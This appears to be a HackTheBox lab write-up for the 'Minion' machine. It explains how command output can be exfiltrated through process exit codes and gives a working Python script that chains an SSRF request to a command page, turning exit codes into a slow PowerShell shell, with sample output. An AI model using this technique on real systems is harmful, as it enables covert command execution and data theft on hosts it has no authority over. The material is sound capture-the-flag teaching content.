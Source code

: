 ```yaml
---
layout: post
title:  "HackTheBox - Minion Error Code Exfiltration"
date:   2018-04-16 01:00:00 +0100
categories: [hackthebox]
description: "For I was Blind but now I see!"
image:
  feature: minion.jpg
  credit:

---
```


This is a writeup of an alternative technique for Minion, which involves exfiltrating data via error codes. All credits for this technique go to [@m0noc](https://twitter.com/overtsecrecy) who actually made this work and used it to pwn Minion.

The Situation
-------------
In Minion we had command execution which returned the exit code of the command called. 0 for success and 1 for failure. In reality, the exit code is entirely controllable by the caller of any process. e.g.

PS C:\Users\Booj> powershell -c 'exit 1234'
PS C:\Users\Booj> echo $lastexitcode
1234
The error code is a 32 bit signed integer so we have a maximum of 4 bytes. Since a character only takes up a single byte (ascii), we can encode any sequence of characters within a sequence of error codes.

Proof of Concept
--------------
In this proof of concept we run a command and save the result to a file, returning as the first exit code the length of the result. We then sequentially send commands to fetch and output each 4 byte sequence as an error code, decoding on our end and yielding a basic shell.
```python
import requests
import sys
import urllib2

'''
Command Creation
'''
def get_cmd_length(command):
    cmd =  '$command = (Invoke-Command -ScriptBlock {{{0}}} | Out-String).TrimStart().TrimEnd(); $command | Out-File $env:temp/merror.txt -encoding ASCII ;exit $command.length'.format(command)
    return cmd

def error_exfil(command, output_length):
    output_length = int(output_length)
    for start in range(0, int(output_length), 4):
        if (output_length - start) < 4:
            amount_to_fetch = output_length-start
        else:
            amount_to_fetch = "4"
        run_cmd = '$fs = Get-Content $env:temp/merror.txt -Encoding Byte -ReadCount 0; $bytearray = $fs[{0}..{1}]; $hex = [System.BitConverter]::ToString($bytearray) -replace \'-\',\'\';\
echo $hex; exit ([convert]::ToInt32($hex, 16));'.format(start, int(start)+int(amount_to_fetch)-1)
        yield run_cmd

def decode_error(errorval):
    val = hex(int(errorval))[2:]
    if len(val)%2 !=0:
        val = '0'+ val

    return val.decode('hex')

'''
Command Sending and Receiving
'''

def run_on_minion(command):

    url = 'http://10.10.10.57:62696' 
    base_url = "/test.asp?u=http://127.0.0.1:80/cmd.aspx?xcmd=" 
    pshell = "powershell -Command \"{0}\"".format(command)
    req = requests.get(url+base_url+urllib2.quote(pshell)) 
    #TODO filter this properly 
    result = req.text 
    error_code = [x.split('=')[1] for x in result.split('\n') if "Exit Status" in x][0]
    return error_code 

'''
Main Loop
'''

def main():
    while True:
        cmd = raw_input('PS>')
        len_cmd = get_cmd_length(cmd)
        length_of_command = run_on_minion(len_cmd)
        for torun in error_exfil(cmd, length_of_command):
            errorval = run_on_minion(torun)
            decodedval = decode_error(errorval)
            sys.stdout.write(decodedval)
            sys.stdout.flush()
        sys.stdout.write('\n')
        sys.stdout.flush()


if __name__ == '__main__':
    main()
```
It should work as is and give us a very slow shell!
```
root@kali:~# python minionerr.py 
PS>whoami
iis apppool\defaultapppool
There are probably ways to improve it, but for now this works as a basic poc.
```
That's all folks!
